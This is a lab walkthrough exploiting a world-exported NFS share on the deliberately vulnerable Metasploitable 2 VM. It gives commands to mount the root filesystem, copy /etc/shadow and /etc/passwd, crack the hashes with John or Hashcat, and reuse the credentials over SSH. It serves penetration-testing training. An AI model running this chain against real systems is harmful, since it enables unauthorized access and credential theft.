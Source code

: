 
#### 🔎 Detection

```bash
showmount -e 192.168.56.109
```

**Result:**

```
Export list for 192.168.56.109:
/ *
```

- Entire filesystem `/` is exported.
    
- Accessible by any host (`*`).
    

---

#### 💥 Exploitation Steps

**1. Create a mount point**

```bash
sudo mkdir -p /mnt/ms2nfs
```

**Explanation:**

- `sudo` → run as root (needed under `/mnt`).
    
- `mkdir` → make a new directory.
    
- `-p` → create parent directories if missing, don’t error if it already exists.
    
- `/mnt/ms2nfs` → directory path where the NFS share will be mounted.
    

➡️ This prepares a local folder to attach the remote filesystem.

**2. Mount the export**

```bash
sudo mount -t nfs 192.168.56.109:/ /mnt/ms2nfs
ls /mnt/ms2nfs
```

➡️ Reveals full MS2 filesystem.

**3. Loot sensitive files**

```bash
cat /mnt/ms2nfs/etc/shadow
cp /mnt/ms2nfs/etc/shadow ~/ms2-shadow
cp /mnt/ms2nfs/etc/passwd ~/ms2-passwd
```

**4. Crack credentials**  
Combine password & shadow files:

```bash
unshadow ~/ms2-passwd ~/ms2-shadow > ~/ms2-unshadow
```

Crack with John:

```bash
john ~/ms2-unshadow
```

Or with Hashcat (example for SHA512crypt):

```bash
hashcat -m 1800 ~/ms2-shadow /usr/share/wordlists/rockyou.txt
```

**5. Reuse credentials**  
Once cracked (e.g., `msfadmin:msfadmin`):

- SSH into target:
    
    ```bash
    ssh msfadmin@192.168.56.109
    ```
    
- Or use Metasploit `exploit/ssh/ssh_login`.
    

---

#### ✅ Why this works

- Metasploitable 2 NFS is misconfigured to export `/` to all hosts.
    
- Allows remote read of sensitive files, including `/etc/shadow`.
    
- Enables offline cracking and credential reuse.
    

---

### Summary Attack Chain

1. **Discover exports** with `showmount -e`.
    
2. **Create mount point** (`/mnt/ms2nfs`).
    
3. **Mount `/`** locally.
    
4. **Steal `/etc/shadow` + `/etc/passwd`**.
    
5. **Crack hashes** with John/Hashcat.
    
6. **Reuse creds** (SSH / Metasploit).